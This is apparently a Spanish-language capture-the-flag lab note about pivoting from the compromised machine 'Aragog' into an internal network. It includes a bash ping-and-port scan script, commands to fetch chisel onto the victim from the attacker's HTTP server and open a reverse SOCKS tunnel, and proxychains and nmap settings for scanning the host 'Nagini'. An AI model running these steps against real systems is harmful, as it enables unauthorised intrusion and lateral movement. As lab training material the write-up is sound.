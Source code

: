 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`








Usaremos `https://github.com/jpillora/chisel`para crear un túnel de tipo socks para llegar a los puertos que hay en los puertos de la red interna que desde nuestra maquina atacante no llegamos a ver.

Lo descargamos y lo descomprimimos y le damos permisos de ejecución.
Lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Y en la maquina victima:
`wget http://192.168.1.19/chisel`

Ejecutamos chisel en la maquina atacante como servidor para que las maquinas se conecten a el
`./chisel server --reverse -p 1234`

Ahora en la maquina victima lo ejecutamos como cliente en la maquina victima:
`./chisel client 192.168.1.19:1234 R:1080:socks`

Lo que estamos haciendo con el parámetro `R:1080:socks` es abrirte el puerto `1080` haciéndote un túnel directo a la maquina `10.10.0.5`


En la maquina atacante abrimos el archivo ` /etc/proxychains4.conf` y modificamos:
`dynamic_chain` comentado
`stric_chain` descomentado
Y al final del documento añadimos `socks5 127.0.0.1 1080`

Ahora cuando queramos hacer una enumeración de puertos de la maquina victima [[10.10.0.5(Nagini)]] deberemos usar `nmap -sT -Pn -p- -open -T5 -v -n 10.10.0.5 2>/dev/null`

Si queremos que sea mas rápido utilizaremos secuenciadores y xargs para paralelizar comandos:





